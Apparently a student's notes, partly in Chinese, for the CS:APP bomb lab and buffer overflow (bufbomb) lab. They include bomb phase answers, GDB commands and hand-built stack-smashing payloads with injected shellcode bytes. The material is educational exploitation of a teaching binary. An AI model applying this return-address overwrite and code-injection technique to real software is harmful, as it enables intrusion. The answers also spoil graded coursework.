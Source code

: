 
----------------------------------------------------------

#### Lab

#### Lab 2
Solutions:
Border relations with Canada have never been better.
1 2 4 8 16 32
1 311或其他
4 389
7 0
IONEFG (flyers)
4 3 2 1 6 5

Intel指令集
	movslq
	https://blog.csdn.net/qq_38712943/article/details/81358799
info r
p /x *0x402470 + 8
b phase_4
disas phase_4
pmap
pvector
GDB调试技巧
	https://blog.csdn.net/transmaple/article/details/48421891

b *0x0000000000400fdf
简书: https://www.jianshu.com/p/33eb51b2024e
Postscript file: GDB: Quick reference

打印寄存器
    p $rax
注意:
	mov 0x20(%rsp),%rbx 代表赋地址
	lea 0x20(%rsp),%rbx 代表赋值
	
#### lab 3

不可修改的register: rip(除了ret)
https://www.cnblogs.com/aliflycoris/p/5746143.html
https://www.jianshu.com/p/dc41c84cef17
https://www.cnblogs.com/yhjoker/p/7623950.html

三个与栈和下一条指令有关的指令
	call=push rip; jmp 0x____
	leave 恢复保存的rbp,rsp,即 movl rbp, rsp; pop rbp
	ret = pop rip
注意事项:
	mov 0x4, %eax #move value of memory[0x4] to eax
	mov $0x4, %eax #move 0x4 to eax

~~~
按照userid=novik实验: 
./bufbomb -u novik
    0x08048c18 smoke
>>>> smoke.txt
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
    00 00 00 00 18 8c 04 08

0x08048c42 fizz
>>>> fizz.txt
    -u novik
	cookie 0x2de1951f
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00 00 00
    00 00 00 00 42 8c 04 08 00 00
	00 00 1f 95 e1 2d
>>>> bang.txt
    -u novik
	0x55683658
>>>> bang.S
movl $0x2de1951f, 0x804d100
movl 0x804d100, %eax
movl %eax, 4(%esp)
push $0x08048c9d
ret
->
c7 05 00 d1 04 08 1f 
95 e1 2d 
a1 00 d1 04 08       
89 44 24 04          
68 9d 8c 04 08       
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
58 36 68 55
>>>> dynamite.txt
buf 0x55683658
ret 0x08048dbe
cookie 0x2de1951f
movl $0x2de1951f, %eax
movl $0x556836b0, %ebp
push $0x08048dbe
ret
>>>> shell
cat dynamite.txt | ./hex2raw | ./bufbomb -u novik